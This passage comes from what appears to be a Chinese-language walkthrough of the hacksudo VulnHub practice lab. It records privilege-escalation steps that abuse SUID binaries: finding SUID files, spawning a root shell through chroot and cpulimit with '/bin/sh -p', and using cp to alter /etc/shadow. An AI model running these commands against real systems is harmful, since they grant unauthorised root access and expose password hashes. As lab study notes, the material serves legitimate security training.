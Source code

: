 ```shell
./chroot / /bin/sh -p
#即可提取
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\22.jpg)



## cp提取

使用`find`寻找具有SUID权限文件

```shell
find / -perm -u=s -type f 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\23.jpg)

查看文件类型为可执行文件，并查看帮助，确定为`cp`命令

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\24.jpg)

与之前使用`sudo`的`cp`进行提取用法差不多

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\25.jpg)

三种方法，复制并读取，复制写入，第三种记录一下，之前并没碰到

```shell
LFILE="/etc/shadow"
./cp --attributes-only --preserve=all ./cp "$LFILE"
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\26.jpg)

## CPUlimit提取

使用`find`寻找具有SUID权限的文件

```shell
find / -perm -4000 -user root -print 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\27.jpg)

查看文件类型为可执行文件，并且确定命令为`CPUlimit`

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\28.jpg)

查看使用方法

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\29.jpg)

```shell
./cpulimit -l 100 -f -- /bin/sh -p
```
